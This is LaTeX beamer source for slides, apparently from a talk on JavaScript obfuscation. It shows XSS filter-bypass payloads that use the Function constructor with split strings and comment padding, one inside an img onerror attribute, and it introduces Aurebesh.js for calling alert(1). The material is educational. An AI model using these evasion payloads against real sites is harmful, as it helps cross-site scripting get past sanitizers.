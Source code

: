 \documentclass[aspectratio=169]{beamer}
\newcommand{\supertext}[1]{\fontsize{30}{40}\selectfont #1}
\begin{document}
\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 1}
	\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}
\end{frame}


\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 1 - invalid}
	\begin{lstlisting}[style=basicStyle, language=Python]
<img src="1" onerror="[]['constructor']['constructor'](`var" s="secret" ;promp`="" +="" `t(s,="" s)`)()="">
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 2}
	\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var/**/s/**/=/**/    'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}
\end{frame}

\section*{Function constructor demo}
\begin{frame}
	\centering
	\vfill
	\supertext{Function constructor demo}
	\vfill
\end{frame}

\section{Aurebesh.js}

\begin{frame}[fragile]{Aurebesh.js}
	\begin{vfilleditems}
		\item<2-> Similar to JSFuck \cite{mk/jsfuck}, also created by Martin Kleppe \cite{mk/aurebesh}
		\item<3-> Write valid JavaScript statements calling \verb|alert(1)|
		\item<4-> Using the characters \verb|() + [] ! " = {}| and 1 to 9 other characters of choice
	\end{vfilleditems}
\end{frame}
\end{document}
